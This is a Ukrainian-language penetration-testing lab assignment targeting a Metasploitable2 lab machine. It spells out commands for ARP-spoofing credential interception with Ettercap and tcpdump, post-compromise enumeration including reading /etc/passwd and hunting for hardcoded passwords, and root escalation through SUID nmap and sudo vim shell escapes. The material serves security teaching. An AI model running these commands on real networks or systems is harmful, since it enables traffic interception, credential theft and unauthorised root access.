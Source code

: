 🛡️ Lab 4: Мережа + підвищення

## 1. 🕵️‍♂️ MITM атака з Ettercap (ARP Spoofing)

### 🔹 Опис завдання:

Провести ARP Spoofing-атаку за допомогою `Ettercap`, перехопити трафік між атакованою машиною та шлюзом.

### 🔹 Кроки виконання:

1. Запусти `Ettercap` у графічному режимі або CLI:
   ```bash
   ettercap -T -M arp:remote /victim_ip/ /gateway_ip/
   ```
2. Визнач жертву (Metasploitable2) та шлюз (наприклад, роутер або Kali).
3. Запусти атаку, проаналізуй отримані пакети tcpdump -i eth0 host 192.168.0.0 -w dump.pcap - може вдастся перехопити облікові записи під час авторизації у локальний або публічний ресурс.

### 🔹 Що надати:

- Скріншоти конфігурації Ettercap
- Перехоплений логін/пароль (якщо вийде)
- Проблеми (наприклад: дублікати IP, захист OS)

---

## 2. 🧙‍♂️ Прихована розвідка з правами www-data

### 🔹 Опис завдання:

Після компрометації вебсервера (наприклад, через LFI або RCE), дослідити систему з правами `www-data`.

### 🔹 Цілі:

- Знайти користувачів
- Перевірити доступні конфіги
- Зібрати інформацію про процеси та мережу
- Передивитись історію і можливі запущені процеси та права на них

### 🔹 Команди:

```bash
whoami
id
cat /etc/passwd
ps aux
netstat -tulpan
find / -type f -name '*.conf' 2>/dev/null
```

### 🔹 Що надати:

- Скріншоти команд і виводу
- Виявлені цікаві конфіги або хардкод-паролі

---

## 3. 🔓 Підвищення привілеїв через SUID

### 🔹 Опис завдання:

Знайти бінарники з правами SUID і використати їх для отримання доступу до root.

### 🔹 Пошук:

```bash
find / -perm -4000 -type f 2>/dev/null
```

### 🔹 Популярні вектори:

- `/bin/bash`
- `/usr/bin/nmap`
- `/usr/bin/find`
- `/usr/bin/python`

### 🔹 Приклад експлуатації:

```bash
# для nmap
nmap --interactive
!sh
```

### 🔹 Що надати:

- Список знайдених SUID
- Метод експлуатації
- Доказ root-доступу (`whoami`)

---

## 4. 🧨 Підвищення прав через sudoers

### 🔹 Опис завдання:

Перевірити доступні sudo-команди для поточного користувача.

### 🔹 Команди:

```bash
sudo -l
```

### 🔹 Якщо доступно щось типу:

```bash
(root) NOPASSWD: /usr/bin/vim
```

### 🔹 Використати:

```bash
sudo vim -c '!sh'
```

### 🔹 Що надати:

- Результат `sudo -l`
- Команди експлуатації
- `id`/`whoami` як root

---

## 📋 Ресурси для Red Team та Pentest перевірок

### 🔹 Чеклісти та гіди:

- [Vulnerability dictionary](https://www.cobalt.io/vulnerability-wiki/v5-validation-sanitization)
- [Awesome-Hacking](https://github.com/Hack-with-Github/Awesome-Hacking)
- [Certified Red Team Professional (CRTP)](https://dev-angelist.gitbook.io/crtp-notes)
- [HackTricks](https://book.hacktricks.wiki/en/welcome/about-the-author.html)
- [Pentest Book](https://pentestbook.six2dez.com/enumeration/ports)
- [Internal All The Things](https://swisskyrepo.github.io/InternalAllTheThings/)
- [Application Security Cheat Sheet](https://0xn3va.gitbook.io/cheat-sheets/)
- [OWASP Cheat Sheet Series](https://cheatsheetseries.owasp.org/index.html)
- [PENTESTING-BIBLE](https://github.com/oxfemale/PENTESTING-BIBLE)
- [Kubernetes Goat](https://madhuakula.com/kubernetes-goat/docs/)
- [CSbyGB's Pentips](https://csbygb.gitbook.io/pentips)
- [Pentration Testing, Beginners To Expert!](https://github.com/xalgord/Massive-Web-Application-Penetration-Testing-Bug-Bounty-Notes)
- [Offensive Security Cheatsheet](https://cheatsheet.haax.fr/)
- [HighOn.Coffee](https://highon.coffee/blog/)
- [Red Team Guides](https://redteam.guide/docs/guides/)
- [Cyber-Bookmarks](https://x0rb3l.github.io/Cyber-Bookmarks/bookmarks.html)
- [IT-Security](https://sushant747.gitbooks.io/total-oscp-guide/content/)
- [IT-Security](https://sushant747.gitbooks.io/total-oscp-guide/content/)

---

✅ **Результати надати у вигляді скріншотів із короткими поясненнями:**

- Що виконано
- Які проблеми виникли (якщо були)
- Який результат досягнуто

